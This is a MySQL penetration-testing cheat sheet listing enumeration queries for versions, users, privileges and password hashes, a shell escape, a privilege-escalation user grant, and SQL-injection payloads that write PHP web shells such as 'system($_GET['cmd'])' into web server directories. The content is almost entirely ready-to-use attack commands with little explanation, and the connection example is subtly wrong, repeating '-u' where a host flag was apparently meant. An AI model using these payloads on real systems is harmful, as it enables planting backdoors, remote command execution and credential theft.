 # MySQL 

# Connection
```sh
mysql -u <hostname> -u root
mysql -u <hostname> -u root@localhost
```

# Enumeration
```sql
-- Version
SELECT version();
SELECT @@version();

-- User
SELECT user();

-- Get users, permissions and hahes
SELECT * FROM mysql.user;

-- Permission
SHOW GRANTS;
SHOW GRANTS FOR "root"@"localhost";
SHOW GRANTS FOR CURRENT_USER();

-- From DB
SELECT * FROM mysql.user WHERE user="root"; 

-- Get users with file_priv
SELECT user,file_priv FROM mysql.user WHERE file_priv="Y";

-- Get users with Super_priv
SELECT user,Super_priv FROM mysql.user WHERE Super_priv="Y";

-- Database Name
SELECT database();

-- List functions
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION";

-- @Functions not from sys. db
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION" AND routine_schema != "sys";

-- Get databases
SHOW databases;

-- Get shell
\! sh
```

# Privilege Escalation
## Create User and Give Privileges
```sql
CREATE USER test identified BY "test";
GRANT SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by "mysql" WITH GRANT OPTION;
```

# Command Execution
```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'

[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

# References
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)